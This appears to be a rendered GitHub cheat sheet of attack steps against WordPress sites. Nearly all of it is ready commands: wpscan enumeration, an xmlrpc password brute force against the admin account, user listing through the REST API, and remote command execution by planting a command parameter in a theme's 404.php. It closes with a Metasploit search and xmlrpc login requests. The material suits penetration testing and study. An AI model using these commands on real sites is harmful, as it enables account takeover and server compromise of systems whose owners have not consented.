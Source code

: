 # Wordpress

## wpscan
 - [wpscan](https://wpscan.com/) Get api token here

```bash
gem install wpscan
```

Enumerate
```bash
wpscan --url <root-url> --enumerate --api-token <api-token> 
```

Password bruteforce
```bash
wpscan --password-attack xmlrpc -t 20 -U admin -P passwords.txt --url <root-url>
```

## Fingerprint

- Check the version from the `<meta name="generator"` tag or from script/stylesheets's `?ver=` param.

## User enumeration

Pre 4.7.1
```
/wp-json/wp/v2/users
```

## Themes RCE
Update theme pages like 404.php to run system commands, then query them

```bash
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

## Metasploit

```
search wp_admin
```

## xmlrpc

list methods
```
curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://<host>/xmlrpc.php
```

login example
```
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://<host>/xmlrpc.php
```